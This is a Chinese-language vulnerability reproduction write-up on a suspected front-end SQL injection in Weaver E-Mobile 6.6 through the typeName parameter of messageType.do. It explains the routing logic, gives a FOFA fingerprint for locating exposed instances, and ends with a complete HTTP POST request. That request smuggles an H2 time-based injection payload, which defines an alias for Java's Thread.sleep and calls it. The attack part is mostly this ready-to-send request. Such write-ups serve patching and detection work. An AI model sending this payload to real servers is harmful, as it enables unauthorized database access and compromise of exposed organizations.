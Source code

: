 # 疑似 E-Mobile 前台SQL注入漏洞
一漏洞背景
-----

最近传的沸沸扬扬的mobile前台SQL注入漏洞   
 

查询网上部分漏出找到漏洞位置client.do  messageType.do

`WEB-INF/classes/weaver/mobile/core/web/MessageTypeAction.class`

二、漏洞复现  
 

祭出fofa大法，fofa语法如下 

  E-Mobile 6.6

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.webp)

部分网络爆出内容 

获取一个method参数做路由

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

typeid这里限制了为int类型跳过

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/1_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/2_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)

method参数等于create时typeName参数存在注入

这样我们就可以Burp构建相关请求了

    POST /messageType.do HTTP/1.1
    Host: xxx.xxx.xxx.xxx
    Cache-Control: max-age=0
    Upgrade-Insecure-Requests: 1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.190 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: JSESSIONID=abc2sezIkpTECehgf1vJx
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 109
    
    
    
    method=create&typeName=1';CREATE ALIAS sleep222 FOR
    "java.lang.Thread.sleep";CALL sleep222(3000);select+'1

![](%E7%96%91%E4%BC%BC%20E-Mobile%20%E5%89%8D%E5%8F%B0SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/3_640wx_fmt%3Dpng%26tp%3Dwebp%26wxfrom%3D5%26wx_lazy%3D1%26wx_co%3D1.png)